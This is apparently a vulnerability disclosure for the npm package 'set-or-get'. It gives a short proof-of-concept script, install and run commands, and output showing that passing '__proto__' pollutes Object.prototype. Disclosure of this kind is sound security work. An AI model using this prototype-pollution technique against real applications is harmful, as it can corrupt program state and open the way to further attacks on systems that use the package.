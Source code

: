 # Description

`set-or-get` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var SetOrGet = require("set-or-get");
var obj = {}
console.log("Before : " + {}.polluted);
SetOrGet(obj, "__proto__", {}).polluted ='Yes! Its Polluted';
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i set-or-get # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
